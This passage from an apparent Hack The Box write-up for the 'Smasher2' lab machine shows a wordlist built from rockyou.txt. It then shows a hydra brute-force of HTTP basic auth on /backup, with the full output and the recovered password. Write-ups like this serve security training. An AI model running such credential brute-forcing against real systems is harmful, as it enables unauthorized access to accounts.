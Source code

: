 Unfortunately not of them worked. By that time, a lot of people in the Mattermost HTB chat were stuck in the same place and the box creator dropped a hint that we had to use **the full rockyou.txt** wordlist and start at the letter c. He also mentioned that the username was `admin`. I don't know how this part of the box got past the HTB testers since heavy bruteforcing is normally not allowed (I think the box later got patched and that basic auth part was removed). To put this into perspective, even when knowing the username and the start letter, we're looking at potentially ~640k passwords in rockyou.txt:

```
# egrep "^c.*" /usr/share/wordlists/rockyou.txt > wordlist.txt
root@ragingunicorn:~/htb/smasher2# wc -l wordlist.txt 
639676 wordlist.txt
```

In my opinion, this is way over the top since the full rockyou list has 14M+ entries and it's not possible to brute force an HTTP basic auth in a reasonable amount of time when we don't even know the username. Anyways, it still took me ~40 minutes to find the password when running 32 threads in hydra:

```
# hydra -l admin -P wordlist.txt 10.10.10.135 -t 32 http-get /backup
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-05 00:24:55
[DATA] max 32 tasks per 1 server, overall 32 tasks, 639677 login tries (l:1/p:639677), ~19990 tries per task
[DATA] attacking http-get://10.10.10.135:80/backup
[STATUS] 7725.00 tries/min, 7725 tries in 00:01h, 631952 to do in 01:22h, 32 active
[STATUS] 7830.67 tries/min, 23492 tries in 00:03h, 616185 to do in 01:19h, 32 active
[STATUS] 7795.57 tries/min, 54569 tries in 00:07h, 585108 to do in 01:16h, 32 active
[STATUS] 7838.53 tries/min, 117578 tries in 00:15h, 522099 to do in 01:07h, 32 active
[STATUS] 7856.03 tries/min, 243537 tries in 00:31h, 396140 to do in 00:51h, 32 active
[80][http-get] host: 10.10.10.135   login: admin   password: clarabibi
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-05 01:05:21
```

Password: `clarabibi`

I checked if that password was present in any other wordlist from SecLists, including the reduced rockyou list but I didn't find it there. It's only in the full rockyou list:

```
# grep -ri clarabibi /usr/share/seclists/
root@ragingunicorn:~# grep -ri clarabibi /usr/share/wordlists/rockyou.txt 
clarabibi
```

Ok, rant over.

Once I had the password, I checked out the `/backup` and found the source code for the authentication page on `wonderfulsessionmanager.smasher2.htb`

![](/assets/images/htb-writeup-smasher2/backup2.png)
